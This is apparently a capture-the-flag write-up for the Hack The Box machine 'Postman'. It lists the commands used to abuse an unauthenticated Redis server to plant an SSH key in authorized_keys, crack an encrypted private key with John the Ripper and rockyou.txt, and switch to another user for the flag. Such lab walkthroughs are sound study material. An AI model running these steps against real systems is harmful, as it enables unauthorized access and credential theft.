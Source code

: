 ![postman](https://user-images.githubusercontent.com/66635295/177882324-7b24b663-8911-4c1c-81c6-85fbc14f3ea8.png)

**RECON**
---
**Unfinished Website**
![recon](https://user-images.githubusercontent.com/66635295/177882332-fd817d49-3650-4a0b-b8cf-9bd12907a41d.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.160</pre>
-allports -version -Aggressive

Port 6379 Redis and Port 1000 Webpage
![nmap](https://user-images.githubusercontent.com/66635295/177882433-ba2d38f8-69fc-49e7-99ff-10ab7c868bd8.png)

**Webpage check**

Wepbpage shows an error, link does not work 
![10000](https://user-images.githubusercontent.com/66635295/177882646-5ebf6232-adf3-4e15-8cdd-b284ba8791f7.png)

Navigating to the proper page reveals Webmin login 
![webmin](https://user-images.githubusercontent.com/66635295/177882796-f0ff7900-9296-4471-b394-01b121af3ef9.png)

**Redis**
<pre> sudo apt-get install redis-tools </pre>
![redis install](https://user-images.githubusercontent.com/66635295/177883042-2adb0cbf-6e2c-44bc-a428-e99c52c57325.png)

Redis Host
<pre>redis-cli -h 10.10.10.160</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178047298-847ee0b2-b196-4674-ab2e-499e5b6a23fc.png)

Directory Check
<pre>CONFIG GET dir</pre>
<pre> CONFIG SET dir /var/lib/redis/.ssh</pre>
![redis-h](https://user-images.githubusercontent.com/66635295/178054227-24f483cd-851e-4e7d-9feb-120da1f1ff95.png)

**ENUMERATION**
---
**SSH Key**
<pre>ssh-keygen</pre>
![sshgen](https://user-images.githubusercontent.com/66635295/178054662-4469fc0a-1040-438b-9c44-6c62b8568dfc.png)

Copy key to .txt file
<pre> (echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > key.txt  </pre>            
![keytxt](https://user-images.githubusercontent.com/66635295/178055503-d0f774e4-6c69-409a-99cf-c0eac96f8106.png)

Send key to host
<pre>cat key.txt | redis-cli -h 10.10.10.160 -x set ssh_key</pre>
![rkey](https://user-images.githubusercontent.com/66635295/178055971-545373bc-d97d-4ea1-bc7b-07574185d1e4.png)

Check key
<pre>get ssh_key</pre>
![check key](https://user-images.githubusercontent.com/66635295/178056511-f5151520-69fe-4dce-b9e5-8571d4c55139.png)

Set database
<pre>CONFIG SET dir /var/lib/redis/.ssh </pre>
<pre>CONFIG set dbfilename authorized_keys</pre>
<pre>save</pre>
<pre>exit</pre>
![set db](https://user-images.githubusercontent.com/66635295/178056953-a2d34e4d-f7b1-40db-b2ff-c58c8c4db9f3.png)


SSH into the host
<pre> ssh - id_rsa redis@10.10.10.160 </pre>

**Checking  Directorys**

authorized_keys directory is here 

![directory](https://user-images.githubusercontent.com/66635295/178059417-c9d01199-9069-4e64-9c48-840fba1f2d65.png)

Home directory 
<pre>ls -l</pre>
<pre>cd Matt</pre>
<pre>ls -l</pre>
User Matt has read permison for user flag

![matt](https://user-images.githubusercontent.com/66635295/178060409-6bc981cb-aca1-4f61-a78d-4dda178c30a0.png)

Opt Directory
<pre> cat id_rsa.bak </pre>
Reveals Private RSA KEY 


**PRIVILEGE ESCALATION**
---
**John the Ripper**
Copy paste the key and transfer it to .john
<pre> /usr/share/john/ssh2john.py postman_id_rsa_enc > postman_id_rsa.john </pre>
![sshtojohn](https://user-images.githubusercontent.com/66635295/178073942-d24e2b6a-b6c2-4652-8406-c8b7cb4242b2.png)

Cracked Password 
<pre> john postman_id_rsa.johm --wordlist=/usr/share/wordlists/rockyou.txt </pre>
Jonhn and rockyou.txt reveals password to be computer2008

![cracked](https://user-images.githubusercontent.com/66635295/178074216-551f939e-0907-4646-9070-fcedf0739f41.png)

**SSH Matt**
<pre>ssh Matt@10.10.10.160</pre>
Matt is denied permission

![fail matt](https://user-images.githubusercontent.com/66635295/178074458-e94015eb-af59-4635-88ca-d72305f099ae.png)

Checking SSH 
<pre>cd /etc/ssh/</pre>
<pre>ls</pre>
![sshconfig](https://user-images.githubusercontent.com/66635295/178074642-1a9db243-8f0e-4b36-b167-20d7103f491f.png)

reading sshd_config Shows Matt is a denied login 

![denny](https://user-images.githubusercontent.com/66635295/178074725-c7d3d884-8855-4f91-aab4-b122591dbe00.png)

Postmatt
<pre> su Matt </pre>
<pre> Password: computer2008 </pre>
![postmatt](https://user-images.githubusercontent.com/66635295/178075034-35d1fd9d-d29c-4def-846f-df32e4c3d510.png)

Flag is now accessible 

![user flag](https://user-images.githubusercontent.com/66635295/178075070-f098c396-939f-4315-8073-d0e6d0a53312.png)

